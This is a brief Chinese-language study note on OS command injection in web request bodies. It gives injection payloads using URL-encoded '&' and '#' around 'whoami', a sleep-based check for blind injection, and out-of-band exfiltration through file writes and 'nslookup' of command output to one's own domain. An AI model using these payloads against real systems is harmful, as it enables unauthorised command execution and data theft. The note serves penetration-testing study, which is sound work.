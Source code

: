 # 一、知识点

### 1. 直接在请求体中注入cmd

步骤：

1. 看到请求体如下：

   ```
   a=1&b=2
   ```

2. 尝试注入

   ```
   a=1+%26whoami+%23&b=2
   ```

   %26 = &、%23 = #

注意：

1. cmd在请求体中的位置也会影响到cmd执行与否，因此需要多次尝试
2. cmd需要使用在&#中

### 2. CMD盲注

步骤：

1. 确认：把cmd换成sleep 1等睡眠指令
2. OOB：
   1. whoami > 文件、访问文件
   2. nslookup `cmd`.自己的域名

